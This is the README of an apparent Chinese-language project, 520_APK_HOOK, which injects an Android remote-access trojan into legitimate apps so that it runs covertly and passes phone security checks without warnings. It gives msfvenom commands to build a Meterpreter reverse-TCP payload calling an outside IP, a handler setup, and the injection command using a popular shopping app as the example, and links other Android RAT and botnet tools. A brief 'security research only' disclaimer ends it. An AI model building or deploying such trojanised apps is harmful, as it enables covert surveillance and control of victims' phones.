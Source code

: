 # 520_APK_HOOK

## 介绍

* 将编写的安卓远控程序，注入到正常的app中，运行app时安卓远控程序也会上线。

* 修复上一版本的bug，使用java重写，同时还重写了520ApkBox程序，专门用来运行运行APP和远控app。

* 520ApkBox是一个java编写的app，主要作用是一个安卓虚拟机，可以不用任何修改就可以用来运行正常的app，可以绕过现在各种app的安全检测。同时此app还是一个加载器，通过DexClassesLoder加载远控的dex文件并启动。

* 520ApkHook是java编写的注入工具，将被注入的app和远控app注入到一个app中。

* 项目地址:  [https://github.com/ba0gu0/520apkhook](https://github.com/ba0gu0/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于普通的安卓远控，此版本app在进行远控时，被注入的app可以正常运行。

* 注入后的app在安装时，手机管家不会有任何安全提示，普通的远控程序，安装时手机管家会有安全警示。

* 理论上来说，只要远控软件使用的是纯Java或者Kotlin编写，就可以使用，不一定必须是msf生成的apk。


## 使用

1. msfmsfvenom

```shell

msfvenom -p android/meterpreter/reverse_tcp lhost=114.114.114.114 lport=3306 -o ~/Downloads/msf.apk

```
2. msfconsole

```shell
# 启动 msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3306
set exitonsession false
exploit -j

```
3. 520ApkHook

```shell

java -jar a520ApkHook-1.0-jar-with-dependencies.jar  ~/Downloads/京东.apk ~/Downloads/msf.apk

```

4. BaoGuo仍给你一个Apk，请安装它!

### 搭配其他远控使用

* 一款安卓僵尸网络远控工具, 服务端是web网页,  基于[https://deta.space](https://deta.space) 搭建(匿名): 

  * [https://github.com/ScRiPt1337/Teardroid-phprat](https://github.com/ScRiPt1337/Teardroid-phprat)

* 一款安卓远控程序, 服务端是GUI程序: 

  * [https://github.com/AhMyth/AhMyth-Android-RAT](https://github.com/AhMyth/AhMyth-Android-RAT)

* 搜集的一些github上的安卓远控项目:

  *  [https://github.com/wishihab/Android-RATList](https://github.com/wishihab/Android-RATList)


## 项目依赖

* 本项目参考以下项目

* 由于安卓虚拟化牵扯到其他github上被下架的程序，在这里不再进行列出，避免被影响。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 由于此软件是基于安卓虚拟化来实现的，虚拟化软件对于不同版本的系统会出现BUG，可以自行修改520ApkBox项目源码(欢迎大佬提交pull) .